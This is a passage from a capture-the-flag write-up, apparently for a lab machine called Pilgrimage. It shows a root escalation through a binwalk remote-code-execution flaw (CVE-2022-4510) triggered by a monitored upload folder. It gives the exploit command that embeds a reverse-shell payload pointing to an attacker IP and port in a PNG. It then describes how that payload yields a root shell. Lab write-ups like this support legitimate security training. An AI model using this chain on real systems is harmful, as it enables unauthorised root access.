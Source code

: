 This uses `inotifywait` to wait for files present in the `/shrunk` directory (which is where images uploaded are stored), and then it uses `binwalk` on them to make sure that there's no hidden stuff within it.&#x20;

We can enumerate the version of `binwalk` being used:

```
emily@pilgrimage:~$ binwalk --help

Binwalk v2.3.2
Craig Heffner, ReFirmLabs
https://github.com/ReFirmLabs/binwalk
```

There are public RCE exploits for this particular version:

{% embed url="https://vulners.com/packetstorm/PACKETSTORM:171724" %}

We can use this script to embed a payload within an empty image (run `touch sample.png`).&#x20;

```
$ python3 pe_rce.py sample.png 10.10.14.86 4444

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.
```

Afterwards, we can download this file to the `/var/www/pilgrimage.htb/shrunk` folder as anything. If you monitor `pspy64` output, this would cause the `malwarescan.sh` script to be run, and our listener port would have a reverse shell!

<figure><img src="../../.gitbook/assets/image (2697).png" alt=""><figcaption></figcaption></figure>

Rooted!
